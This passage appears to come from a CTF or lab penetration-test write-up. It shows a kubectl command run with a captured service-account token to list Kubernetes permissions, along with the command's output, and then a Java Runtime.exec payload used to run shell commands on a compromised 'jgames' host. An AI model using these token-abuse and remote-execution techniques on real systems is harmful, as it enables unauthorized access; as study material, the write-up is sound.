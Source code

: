 Now, we could run `kubectl` and `curl` commands:

```bash
kubectl --token=$(cat token_cgit.txt) --server=https://192.168.128.1 --insecure-skip-tls-verify=true auth can-i --list --namespace=sam-queue
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
                                                [/.well-known/openid-configuration/]   []               [get]
                                                [/api/*]                               []               [get]
                                                [/api]                                 []               [get]
                                                [/apis/*]                              []               [get]
                                                [/apis]                                []               [get]
                                                [/healthz]                             []               [get]
                                                [/healthz]                             []               [get]
                                                [/livez]                               []               [get]
                                                [/livez]                               []               [get]
                                                [/version/]                            []               [get]
                                                [/version/]                            []               [get]
                                                [/version]                             []               [get]
                                                [/version]                             []               [get]
services                                        []                                     []               [list get]
```

So we had no interesting permissions. We also tried listing services and interacting with endpoints using `kubectl` and `proxychains4 curl`, but with no success.

### 4. Revisiting the Jgames Machine

Returning to the **jgames** machine, we searched for files created after `2024-01-01`:

```bash
print (new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec(
"find / -path /sys -prune -o -path /proc -prune -o -type f -newermt 2024-01-01 -print"
).getInputStream())).lines().collect(java.util.stream.Collectors.joining(java.lang.System.lineSeparator())))
```
